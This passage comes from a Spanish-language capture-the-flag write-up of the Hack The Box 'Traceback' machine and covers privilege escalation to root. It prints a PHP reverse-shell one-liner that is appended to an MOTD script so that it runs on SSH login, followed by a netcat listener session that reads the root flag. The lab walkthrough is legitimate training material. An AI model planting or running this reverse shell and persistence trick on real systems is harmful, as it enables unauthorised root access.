 Vamos a la carpeta `/etc/update-motd.d/` y modificamos el archivo `00-header` en el cual vamos a incluir una shell reversa en PHP al final del archivo.

```bash
...
[ -r /etc/lsb-release ] && . /etc/lsb-release

echo "\nWelcome to Xh4H land \n" 
php -r '$sock=fsockopen("10.10.14.21",4444);exec("/bin/sh -i <&3 >&3 2>&3");' 
```

Rápidamente nos conectamos de nuevo por SSH al usuario `sysadmin`

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Traceback]
└──╼ #ssh -i ssh-keys sysadmin@traceback.htb

#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
Enter passphrase for key 'ssh-keys':
```

Finalmente, revisamos la sesión con netcat y ya tenemos acceso como `root`, así que lo único que nos queda es imprimir la flag

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Traceback]
└──╼ #nc -lvp 444

listening on [any] 4444 ...
connect to [10.10.14.21] from traceback.htb [10.10.10.181] 43624
/bin/sh: 0: can access tty; job control turned off
# whoami
root
# cat /root/root.txt
3ac2e9...........................
```